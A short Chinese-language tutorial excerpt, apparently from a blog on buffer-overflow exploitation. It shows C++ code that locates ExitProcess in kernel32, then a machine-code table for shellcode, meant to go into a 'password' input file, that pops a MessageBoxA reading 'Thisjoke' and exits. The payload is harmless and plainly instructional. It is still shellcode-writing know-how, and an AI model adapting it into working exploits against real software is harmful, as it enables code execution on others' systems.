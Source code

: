 ![MLzBOf.png](https://s2.ax1x.com/2019/11/24/MLzBOf.png)

定位exitprocess入口地址

```c++
#include <stdio.h>
#include <windows.h>
 
typedef void (*FuncPointer)(LPTSTR);  // 函数指针  
 
int main()
{   
    HINSTANCE LibHandle;
    FuncPointer GetAddr;
    // 加载成功后返回库模块的句柄 
    LibHandle = LoadLibrary("kernel32");  
    printf("kernel32 LibHandle = 0x%X\n", LibHandle);
    // 返回动态链接库(DLL)中的输出库函数地址
    GetAddr=(FuncPointer)GetProcAddress(LibHandle,"ExitProcess");   
    printf("ExitProcess = 0x%X\n", GetAddr);
    return 0;
}
```

![MLzqh9.png](https://s2.ax1x.com/2019/11/24/MLzqh9.png)

修改password文件

| 机器码     | 汇编指令           | 解释                |
| ---------- | ------------------ | ------------------- |
| 33DB       | XOR EBX,EBX        | 将EBX寄存器置为NULL |
| 53         | PUSH EBX           |                     |
| 686A6F6B65 | PUSH 656b6f6a      | Thisjoke            |
| 6854686973 | PUSH 73696854      |                     |
| 8BC4       | MOV EAX,ESP        | EAX里存入字符串指针 |
| 53         | PUSH EBX           |                     |
| 50         | PUSH EAX           |                     |
| 50         | PUSH EAX           |                     |
| 53         | PUSH EBX           |                     |
| B8EA07D577 | MOV EAX,0x77D507EA | 调用MessageBoxA     |
| FFD0       | CALL EAX           |                     |
| 53         | PUSH EBX           |                     |
| B8A2BF817C | MOV EAX,0x7C81BFA2 | 调用exit（0）       |
| FFD0       | CALL EAX           |                     |
